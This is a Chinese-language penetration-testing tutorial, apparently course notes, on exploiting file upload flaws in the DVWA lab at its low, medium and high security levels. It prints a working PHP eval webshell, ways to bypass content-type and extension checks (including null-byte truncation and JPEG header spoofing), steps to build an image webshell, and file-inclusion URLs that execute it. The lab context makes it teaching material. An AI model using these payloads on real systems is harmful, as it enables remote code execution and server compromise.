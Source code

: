 文件上传漏洞是一种通过上传恶意文件（如脚本、可执行文件等）到服务器并触发其执行，导致远程代码执行、敏感数据泄露或篡改系统行为的安全漏洞。

可上传 php、asxp、html、svg

判断后端语言

> 1.看 url 显示的文件名
>
> 2.查看数据包
>
> 3.nmap 扫描

判断文件上传路径

> 1.看路径回显
>
> 2.头像可以看资源地址，得到路径
>
> 3.经验积累 
>
> 4.已知产品可模拟环境
>
> 5.未知产品扫目录

> 注意：上传的文件可能会被随机命名，甚至会修改后缀名
>
> hash 值命名，时间戳
>
> 遇到漏洞理性分析，理性判断，不要死磕

漏洞验证

> 不要传一句话木马，验证漏洞存在即可，一定要无害化
>
> 密码不要过于简单，避免被其他黑客利用
>
> ```
> <?php @echo md5("test");?>
> ```
>
> > 后期可加入代码执行后自删除，一定不要涉及到其它文件

webshell文件

```
<?php @eval($_POST[xuegod]);?>
```

> 注意命令执行的格式，如查看网页信息：`xuegod=phpinfo;` ，执行系统命令：`system(ls)`
>
> 使用蚁剑等 webshell 工具注意要用最新版，避免被反制

# 1 基于 DVWA 的 low 级别演示文件上传漏洞

进入 File Upload，直接上传任意文件 `webshell.php` 

```
<?php @eval($_POST[xuegod]);?>
```

> 此文件为执行 xuegod 的 php 文件

成功上传可看到回显

```
../../hackable/uploads/webshell.php succesfully uploaded!
```

与 URL  `http://192.168.1.76/DVWA/vulnerabilities/upload/#` 拼接即可访问文件

```
http://192.168.1.76/DVWA/vulnerabilities/upload/../../hackable/uploads/webshell.php
```

> 未写入可显数据，无回显

访问文件，在 HackBar 里利用密码操控目标

```
xuegod=phpinfo();
```

> 查看 PHP 信息

```
xuegod=system(id);
```

> 执行系统命令 `id`

使用 webshell 工具，蚁剑连接目标

```
URL地址：http://192.168.1.76/DVWA/vulnerabilities/upload/../../hackable/uploads/webshell.php
连接密码：xuegod
```

> 注意要用最新版，避免被反制

# 2 基于 DVWA 的 Medium 级别演示文件上传漏洞

进入 File Upload

**限制文件后缀名为 jpeg 或 png，此时无法上传 php 文件**

在 kali 中使用 mimetype 查看文件类型

```
┌──(root㉿Kali-24)-[~]
└─# mimetype xuegod.jpg 
xuegod.jpg: image/jpeg
```

>jpg 文件的文件类型为 `image/jpeg`

1.可以开启拦截上传文件，在请求数据包中修改 `Content-Type` 为指定的文件类型，如 `Content-Type: image/jpeg` （用于绕过文件类型检测）

2.可以修改文件名后缀为 jpg ，开启拦截在请求数据包中修改 `filename="webshell.jpg"` 为 `filename="webshell.php"` （避免上传文件无法执行）

3.通过特殊符号绕过后缀名校验

> php 5.2 可利用 00 截断（hello00.jpg）

# 3 基于 DVWA 的 High 级别演示文件上传漏洞

**限制文件后缀名为 jpeg 或 png，并且是有效图片（可以查看）**

1.若是只是普通校验后缀名和文件头标识符，在代码中首部插入文件头，修改后缀即可（后缀修改参考 Medium ）

FF D8 FF（jpg 的文件头）

```
FF D8 FF
<?php @eval($_POST[xuegod]);?>
```

2.若严格校验后缀名，需要将 payload 植入到正常的图片文件中，上传后通过利用文件包含漏洞（可将 payload 写入 UA，目标会保留到日志中）加载图片中的代码执行

例如：在 File Inclusion 中 

```
http://192.168.1.76/DVWA/vulnerabilities/fi/?page=file1.php
```

> 这个网站在   ` File Inclusion` 中会执行 `file1.php` 文件

**在 linux 中制作图片马**

在 kali 中制作一句话木马

```
┌──(root㉿Kali-24)-[~]
└─# cat webshell.php                        
<?php @eval($_POST[xuegod]);?>
```

上传一个普通的图片文件

```
┌──(root㉿Kali-24)-[~]
└─# ls
webshell.php  xuegod.jpg
```

将木马文件追加到图片中

```
┌──(root㉿Kali-24)-[~]
└─# cat webshell.php >> xuegod.jpg
```

> 此时可在文件末尾看到 payload 代码

**在 windows 中制作图片马**

使图片文件和木马文件在一个文件夹下，在此文件夹下打开 cmd

合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

在 ` File Upload` 上传图片马

```
../../hackable/uploads/hello.jpg
```

进入 `File Inclusion` ，拼接 url

```
http://192.168.1.76/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/uploads/hello.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
../../hackable/uploads/201457119579.jpg
```

> 使用 file 协议和绝对路径

利用密码执行代码

```
xuegod=phpinfo();
```

> 会在代码插入的地方显示反馈

**在蚁剑中执行 payload 需要加入 Cookie 请求头**

在目标页面获取 Cookie

```
>document.cookie
'PHPSESSID=mm8prcunm801p1hb0bqjv7ig47; security=high'
```

将 Cookie 写入蚁剑请求信息即可

![将 Cookie 写入蚁剑请求信息](./../../../../../images/Unrestricted%20File%20Upload/%E5%B0%86%20Cookie%20%E5%86%99%E5%85%A5%E8%9A%81%E5%89%91%E8%AF%B7%E6%B1%82%E4%BF%A1%E6%81%AF.png)

>要去掉单引号

---

参考链接

- [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
